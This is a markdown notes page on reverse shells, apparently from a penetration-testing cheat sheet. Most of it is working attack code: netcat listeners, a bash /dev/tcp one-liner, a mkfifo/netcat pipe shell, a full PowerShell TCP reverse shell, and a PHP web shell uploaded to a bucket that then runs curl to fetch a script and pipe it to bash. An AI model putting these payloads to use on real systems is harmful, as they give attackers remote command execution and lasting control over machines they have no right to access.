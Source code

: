 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

A reverse shell is a technique used to gain remote access to a victim's system by making the target machine initiate a connection back to the attacker. Unlike a traditional shell, this allows the target to "call back" to the attacker’s machine.&#x20;

Reverse shells are commonly used in penetration testing and hacking scenarios to maintain access, control compromised systems, and perform further exploitation.

Here we have some scripts that can be used to create a reverse shell for various scenarios:

## <mark style="color:orange;">Basic script</mark>

* Establish a listening port on the host machine with Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port     #An arbitrary port 
```
{% endcode %}

***

* Use a script to send the remote shell to the listening port

{% code title="RevShell.sh" overflow="wrap" lineNumbers="true" %}
```sh
#!/bin/bash

bash -i >& /dev/tcp/$ip/$port 0>&1
```
{% endcode %}

{% hint style="info" %}
* `$port`is the port listening with _netcat_ and `$ip` the host machine's IP
* If you are using a VPN `$ip` is the IP assigned by the VPN instead of the host IP
* Remember also to give execution permissions to the script
{% endhint %}

## <mark style="color:orange;">For Linux hosts</mark>

* Listen with Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $port
```
{% endcode %}

***

* Use a script to send the remote shell to the listening port

{% code title="RevShell-RM.sh" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $port >/tmp/f
```
{% endcode %}

{% hint style="info" %}
Remember also to give execution permissions to the script
{% endhint %}

## <mark style="color:orange;">For Powershell on Windows hosts</mark>

* Listen with Netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $port
```
{% endcode %}

***

* The command for getting the shell

{% code overflow="wrap" lineNumbers="true" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('$IP',$port);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

## <mark style="color:orange;">For awscli</mark>

* Check if we have remote command execution

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php #Upload this file in the bucket
http://$url/shell.php?cmd=id #In browser. If there's a response, we have access
```
{% endcode %}

***

* Create a bash file for the reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash 
bash -i >& /dev/tcp/$myip/$portcat 0>&1 #Arbitrary port
```
{% endcode %}

***

* Listen with netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $portcat
```
{% endcode %}

***

* Create a server with python

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m http.server $port #Must be created at the same place where the reverse shell script is
```
{% endcode %}

***

* Use the `curl` command from the local server to get the reverse shell file and pass it to the bash of the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/shell.php?cmd=curl%20$myip:$portpy/$shfile|bash
```
{% endcode %}
